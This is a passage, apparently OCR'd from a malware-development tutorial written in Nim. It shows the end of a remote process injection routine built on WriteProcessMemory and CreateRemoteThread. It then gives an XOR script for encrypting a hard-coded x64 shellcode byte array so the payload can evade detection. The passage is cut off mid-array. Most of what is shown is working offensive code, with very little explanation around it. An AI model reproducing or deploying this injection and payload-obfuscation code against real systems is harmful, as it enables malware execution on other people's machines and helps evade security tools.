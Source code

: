 ```nim
        cast[SIZE_T](encrypted.len),
        MEM_COMMIT,
        PAGE_EXECUTE_READ_WRITE
    )
    var btw: SIZE_T
    let wp = WriteProcessMemory(
        ph,
        mem,
        unsafeAddr payload[0],
        cast[SIZE_T](encrypted.len),
        addr btw
    )
    echo "writeprocessmemory: ", bool(wp)
    let th = CreateRemoteThread(
        ph,
        NULL,
        0,
        cast[LPTHREAD_START_ROUTINE](mem),
        NULL,
        0,
        NULL
    )
    echo "successfully inject to process: ", process.processID
    echo "thread Handle: ", th
```

But we need encrypted payload. For encrypting our payload we will need encryption script like this `xorE.nim`:    

```nim
import strutils

proc xorEnc(data: seq[byte], key: seq[byte]): seq[byte] =
    var enc: seq[byte]
    for i in 0 ..< len(data):
        enc.add(data[i] xor key[i mod len(key)])
    result = enc

when isMainModule:
    let payload: seq[byte] = @[
    byte 0xfc,0x48,0x81,0xe4,0xf0,0xff,
    0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
    0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,
    0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,
    0x50,0x3e,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,
    0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,
    0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,
    0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
    0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,
    0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
    0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,
    0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
    0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
    0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,
    0x49,0x01,0xd0,0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,
    0x40,0x1c,0x49,0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,
    0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
    0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
    0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,
    0x49,0xc7,0xc1,0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0xfe,
    0x00,0x00,0x00,0x3e,0x4c,0x8d,0x85,0x09,0x01,0x00,0x00,0x48,
    0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,0x48,0x31,
    0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x6d,0x65,0x6f,
    0x77,0x2d,0x6d,0x65,0x6f,0x77,0x21,0x00,0x63,0x61,0x74,0x00
```